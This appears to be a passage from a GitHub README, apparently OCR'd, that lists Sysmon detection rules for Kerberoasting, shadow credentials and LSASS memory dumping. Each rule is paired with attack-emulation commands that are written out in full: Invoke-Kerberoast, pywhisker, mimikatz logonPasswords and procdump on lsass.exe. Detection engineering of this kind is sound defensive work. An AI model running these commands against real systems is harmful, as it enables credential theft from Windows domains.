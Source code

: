 ```Exclude normal accounts here```
Emulate via Watson.exe

There are many ways to execute this alert including via various C2's execute-assembly commands such as Cobaltstrike and NimPlant - it can be done by executing a .NET binary e.g. Watson.exe available here. This will generate image load events (if capturing of Sysmon Event ID 7 is enabled) for clr.dll and clrjit.dll which should trigger this alert.

Watson.exe
TA0006 Credential Access
Steal or forge Kerberos tickets
Kerberoasting
sysmon_detect_kerberoasting_4769
Alert to detect Kerberoasting

Reference: https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/

Emulate via powershell / Powersploit

Invoke-Kerberoast -Domain dev.testlab.local
OS Credential Dumping
sysmon_detect_shadow_credentials_creation
Alert to detect Creation of Shadow Credentials / msds-KeyCredentialLink Key in AD

Reference: https://www.elastic.co/guide/en/security/7.17/prebuilt-rule-0-16-1-potential-shadow-credentials-added-to-ad-object.html

For this, additional Additional Monitoring can be added as follows via Set-AuditRule

Import-Module .\ActiveDirectory
Set-AuditRule -AdObjectPath 'AD:\CN=Computers,DC=hacker,DC=lab' -WellKnownSidType WorldSid -Rights WriteProperty -InheritanceFlags Children -AttributeGUID 5b47d60f-6090-40b2-9f37-2a4de88f3063 -AuditFlags Success
Emulate via pywhisker

python3 pywhisker.py -d $DOMAIN -u $USERNAME -p $PASSWORD --target $COMPUTER_NAME$ --action add --filename test1 --dc-ip $DC_IP
LSASS Memory
sysmon_detect_lsass_memory_access_mimikatz
Alert to detect LSASS Access possibly indicative of Mimikatz

Emulate via cmd/mimikatz

mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
sysmon_detect_lsass_memory_access_mimikatz
Alert to detect credentials dumping via sysInternals' procdump tool detected via the specific command line arguments used

Emulate via cmd/procdump

procdump.exe -accepteula -ma lsass.exe lsass.dmp
sysmon_detect_lsass_memory_createremotethread
Alert to detect CreateRemoteThread call on lsass.exe

Reference: https://github.com/deepinstinct/LsassSilentProcessExit

Emulate via cmd/LsassSilentProcessExit.exe

LsassSilentProcessExit.exe <PID of LSASS.exe> 1
sysmon_detect_lsass_memory_dumps_temp_folder
Alert to detect dump files being created into the temporary (%TEMP%) folder which is a common place for threat actors to dump memory info

Emulate via cmd
```